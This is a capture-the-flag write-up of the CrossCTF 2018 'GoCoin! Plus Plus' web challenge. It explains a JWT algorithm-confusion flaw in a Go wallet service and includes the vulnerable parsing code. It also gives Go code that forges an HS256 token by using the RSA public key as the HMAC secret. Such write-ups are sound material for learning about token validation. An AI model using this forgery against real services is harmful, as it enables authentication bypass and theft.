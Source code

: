 
# CrossCTF Finals 2018: GoCoin! Plus Plus (web)

> I thought blockchain was cool, so I made my own coin.
> 
> GoCoin! Plus Plus is the forked and improved version of GoCoin! Plus.
> 
> Update: I've improved it! More secures and with real cryptos, it's a true cryptocoin now! Update: Stupid me wrote a broken challenge, now its really fixed!
> 
> http://ctf.pwn.sg:1389

## Challenge

So this is the real challenge, fixed by the organisers. TL; DR: 

```diff
54c54
< 	walletString := this.Ctx.GetCookie("wallet")
---
> 	walletString := this.Ctx.GetCookie("wallet_2")
...
92c92
< 	if err != nil {
---
> 	if err != nil || amount < 0 {
...
141c141
< 	if err != nil {
---
> 	if err != nil || amount < 0 {
...
```

So this makes the previous exploit unexploitable. Time to look back at the JWT implementation. 

My familiarity with Go made the [code](https://github.com/NUSGreyhats/crossctf-2018-challenges/blob/master/finals/challenges/GoCoin!%20Plus%20Plus/service/src/main.go) 2x easier to read. 

Because of the hints about crypto being used, it pointed us pretty clearly at the JWT code. If you didn't know yet, JWS stands for JSON Web Tokens. It's a authorization token that can contain data, and makes token validation stateless other than validation of the signature attached using PKI.

It was pretty well-know that JWT had an issue previously where things with `alg: none`. It's even stated in a banner on the JWT website. So, I took a look at the `ParseWallet` function.

```go
func ParseWallet(myToken string, myKey []byte) (float64, float64, error) {
	token, err := jwt.Parse(myToken, func(token *jwt.Token) (interface{}, error) {
		if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
			key, err := jwt.ParseRSAPublicKeyFromPEM(myKey)
			return key, err
		}
		return myKey, nil
	})
	if err == nil && token.Valid {
...
```

From this chunk of code, you can see that the program checks for tokens that are *not* HMAC and then parses the PEM public key. But, if the token is a HMAC, it directly returns the key! This is especially obvious if you compare it to the [example code for HMAC](https://godoc.org/github.com/dgrijalva/jwt-go#example-Parse--Hmac) in the documentation for `github.com/dgrijalva/jwt-go`, and [notices](https://github.com/dgrijalva/jwt-go#compliance) in the project README. 

Since the plaintext public key is being used to perform HMAC comparison rather than validating RSA signatures, we can forge our own tokens because we know the HMAC secret, which is the `[]byte` publicKey. 

So let's write a program to create this HMACed instead of RSAed token. Oh wait, it's already written by the challenge author! Just need to change one tiny bit. 

```go
token := jwt.New(jwt.GetSigningMethod("HS256"))
```

Then now I can do:

```go
myKey := `-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCyg+EcZOSLYXqdA0Gdx6hE0PFY
GshbSxHwBbZ0Ivw41OCD447WtiTmBKWhYkyZIW1uF2G0YpifP9CGZgIHhW6jPUwB
u1ewHy0ch+GQeMleaVGqEOsAd65DAXi2TSCZLl66zWy0enQ/SFkm9OTTGYR0e0hM
DFqKsA30lPd0pHbSNwIDAQAB
-----END PUBLIC KEY-----
` // This newline is important
tokenString, err := Wallet(10000, 10000, []byte(myKey))
fmt.Println(err, tokenString)
_, _, err := ParseWallet(tokenString, myKey)
fmt.Println(err) // nil is SUCCESS! wohoo
```

[Here's the full code](gocoin2jwt.go). 

Now I've got a valid token, I can simply perform the request to /flag with the token set inside the cookie. Many ways to do than, including using DevTools. 

